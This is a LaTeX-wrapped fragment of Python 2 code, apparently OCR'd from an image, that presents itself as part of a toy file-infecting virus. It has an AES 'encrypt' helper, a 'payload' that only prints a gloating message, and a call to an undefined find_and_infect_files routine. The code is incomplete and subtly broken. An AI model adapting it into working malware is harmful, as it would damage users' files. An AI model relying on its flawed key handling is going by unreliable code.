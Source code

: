 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{verbatim}
# Function to encrypt 
def encrypt(data,filename):
   source = open(filename + '-copy', 'r')
   # Generate a new random initialization vector
   iv = Random.new().read(AES.block_size)
   # Read first 24 bytes to create the key to encrypt data
   cipher = AES.new(StringIO.StringIO(source).read(24), AES.MODE_CFB, iv)
   # Encrypt data
   encrypted = iv + cipher.encrypt(data)

   source.close()
   # Encode encrypted data in base64
   return base64.b64encode(encrypted)

# Malicious payload to execute
def payload():
   print "This file is infected! Mhuahauhauahau!"

# Find and infect files
find_and_infect_files()
# Execute the payload
payload()
\end{verbatim}
\end{document}
